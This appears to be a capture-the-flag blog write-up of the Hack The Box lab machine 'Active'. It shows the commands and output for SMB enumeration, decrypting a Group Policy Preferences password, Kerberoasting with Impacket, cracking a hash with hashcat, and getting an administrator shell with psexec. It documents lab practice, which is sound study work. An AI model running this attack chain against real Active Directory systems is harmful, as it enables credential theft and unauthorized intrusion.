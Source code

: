 ```yaml
---
layout: post
title: "HTB-Active"
categories: HTB-Active
---
```


![active](/assets/img/active/active1.png)


Active is a box from TJNull's OSCP list, its one of the HTB 'retired' list judged a bit more challenging than the OSCP
but good practice.
As always, nmap first...


<h3>Nmap</h3>
`nmap -sV -Pn -p- 10.10.10.100 |tee -a act.txt`

```

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-01 23:25:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
49180/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows


```
<hr width="250" size="6">



<h3>SMB Enumeration</h3>

Enum4linux, is a handy smb enumeration tool, the results here give us a springboard for further enumeration.

`enum4linux 10.10.10.100`

```

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available

```

More interesting information is found...

```

//10.10.10.100/Replication      Mapping: OK, Listing: OK

```


With some shares listed, we can use smbmap and smbclient to invstigate.

`smbmap -H 10.10.10.100` gives us a little more...

![smbmap](/assets/img/active/active-smbmap1.png)

We have the domain name confirmed as `active.htb` and so update the /etc/hosts file accordingly.

Smbclient is a good tool for manually enumerating the server, lets have a look at the Replication share...

`smbclient //10.10.10.100/Replication`

![smbclient1](/assets/img/active/active-smbclient1.png)


Further digging leads to a file Groups.xml which we can retrieve with smbclient.

![smbclient-groupsxml](/assets/img/active/active-smbclient-groupsxml.png)

Groups.xml gives us some credentials

```

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

It looks like the account is not disabled, so we can try to use it, if we can decrypt it.


Its a 'group policy preferences' encryption, Kali has a handy tool to decrypt it.
gpp-decrypt works...

```

gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18

```
so...
`active.htb\SVC_TGS`
`GPPstillStandingStrong2k18`

we can try these creds in smbclient to see what else we can find...

`smbclient -U SVC_TGS //10.10.10.100/Users`

We can browse to and 'get' user.txt.

![usertxt](/assets/img/active/active-smbclient-usertxt.png)

<hr width="250" size="6">

Now I need to gain access and escalate privileges.

Fortunately Impacket has a set of tools that can help.

```

<h3>Impacket Tools</h3>


python GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18

```

![getuserspn](/assets/img/active/active-getuserspn.png)

I copy the hash to textfile 'hash' and use hashcat with rockyou.txt to break it.

`hashcat -m 13100 hash.txt -a 0 /home/sassuwunnu/wordlists/rockyou.txt --force`

we get the password `Ticketmaster1968`

Before exploring other avenues of access, I quickly try the creds Administrator/Ticketmaster1968
with smbclient.

```

root@kali:~/HTB/vip/active# smbclient -UAdministrator //10.10.10.100/Users
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 15:39:20 2018
  ..                                 DR        0  Sat Jul 21 15:39:20 2018
  Administrator                       D        0  Mon Jul 16 11:14:21 2018
  All Users                         DHS        0  Tue Jul 14 06:06:44 2009
  Default                           DHR        0  Tue Jul 14 07:38:21 2009
  Default User                      DHS        0  Tue Jul 14 06:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 05:57:55 2009
  Public                             DR        0  Tue Jul 14 05:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 16:16:32 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \> cd administrator
smb: \administrator\> cd desktop
smb: \administrator\desktop\> ls
  .                                  DR        0  Mon Jul 30 14:50:10 2018
  ..                                 DR        0  Mon Jul 30 14:50:10 2018
  desktop.ini                       AHS      282  Mon Jul 30 14:50:10 2018
  root.txt                            A       34  Sat Jul 21 16:06:07 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \administrator\desktop\> get root.txt
getting file \administrator\desktop\root.txt of size 34 as root.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \administrator\desktop\> exit

```

<hr width="250" size="6">

Looks like we didn't need to actually get a command shell on the target at all to retrieve the
user and root flags.


I can't just leave it there though, got to get a shell...

Again Impacket's tools make it simple in this situation.

```


python ~/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file GLVXXcRb.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service UXYD on 10.10.10.100.....
[*] Starting service UXYD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```



:)


